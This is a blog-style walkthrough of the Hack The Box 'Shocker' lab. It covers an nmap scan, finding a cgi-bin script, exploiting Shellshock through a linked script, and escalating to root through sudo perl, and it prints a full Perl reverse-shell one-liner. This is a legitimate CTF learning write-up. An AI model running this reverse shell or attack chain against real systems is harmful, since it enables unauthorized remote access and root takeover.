 Below is my write-up on Shocker from HTB. 
At the time of writing, the IP address was 10.10.10.56. Unfortunately, I had lost my write-ups for Shocker & Nibbles. I'm rebuilding them, however it is done after the fact and with way less struggling. So let's get started!

let's hit nmap first.

`└──╼ $nmap -T4 -A -v 10.10.10.56`
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-02-12 07:17 MST
NSE: Loaded 146 scripts for scanning.
NSE: Script Pre-scanning.
Initiating NSE at 07:17
Completed NSE at 07:17, 0.00s elapsed
Initiating NSE at 07:17
Completed NSE at 07:17, 0.00s elapsed
Initiating Ping Scan at 07:17
Scanning 10.10.10.56 [2 ports]
Completed Ping Scan at 07:17
Completed Parallel DNS resolution of 1 host. at 07:17, 0.06s elapsed
Initiating Connect Scan at 07:17
Scanning 10.10.10.56 [1000 ports]
Discovered open port 80/tcp on 10.10.10.56
Discovered open port 2222/tcp on 10.10.10.56
Completed Connect Scan at 07:18, 26.81s elapsed (1000 total ports)
Initiating Service scan at 07:18
Scanning 2 services on 10.10.10.56
Completed Service scan at 07:18, 6.59s elapsed (2 services on 1 host)
NSE: Script scanning 10.10.10.56.
Initiating NSE at 07:18
Completed NSE at 07:18, 10.10s elapsed
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Nmap scan report for 10.10.10.56
Host is up (0.42s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (EdDSA)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Initiating NSE at 07:18
Completed NSE at 07:18, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 44.62 seconds
```


Hmm ok. Well, we've got web and ssh. Let's hit the website and see what's up!
![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker1.jpg?raw=true)
Nothing too interesting there..source?

```
> <!DOCTYPE html><html><body>
><h2>Don't Bug Me!</h2><img src="bug.jpg" alt="bug" style="width:450px;height:350px;">
></body></html> 
```

Ok yeah, still not much to go on here. Let's try to find any other pages on the site. 

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker2.jpg?raw=true)

Hmm...Disappointing. 
Not really much to go on here.

Thinking about the name of the box, I'm guessing shocker had to do with the shellshock vulnerability. However, I am not seeing anything in the cgi-bin folder that is exploitable. I even downloaded a special cgi-bin wordlist. What am I missing?
Ok, I figured it out. Apparently I was looking for only bin, py and didn't do a search for .sh. So I found user.sh in the cgi-bin folder and now we have our way in.
So in terms of the actual exploit, I found [this neat python script](https://gist.github.com/matjohn2/bc9689c60d4c9c5a2538/) from user [matjohn2 on github](https://github.com/matjohn2/) Thanks, matjohn2!

Super simple, it has the reverse shell built in! So I launch that and Aw yes, we got that userrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr!

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker3.jpg?raw=true)


Sup' shelly what have you got in store for us?

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker4.jpg?raw=true)

After minimal enumeration 
`sudo -l`
I found this...

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker5.jpg?raw=true)

Whaaaat, Shelly you shouldn't have. (Really, you shouldn't have!)

So it's just as simple as starting up another netcat listener terminal window and sending this glorious reverse shell: 

```sudo perl -e 'use Socket;$i="myip";$p=myport;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'```


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker6.jpg?raw=true)

![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker7.jpg?raw=true)

My face when I saw that: 


![](https://github.com/ICMPofDED/ICMPofDED.github.io/blob/master/images/shocker8.jpg?raw=true)



So now that this box is all said and done, I did struggle a lot before I realized it was shellshock. I even remember examining the image of the "bug" for steganagrophy. My lesson for this write-up...Make backups of your notes :). Thanks again for reading!
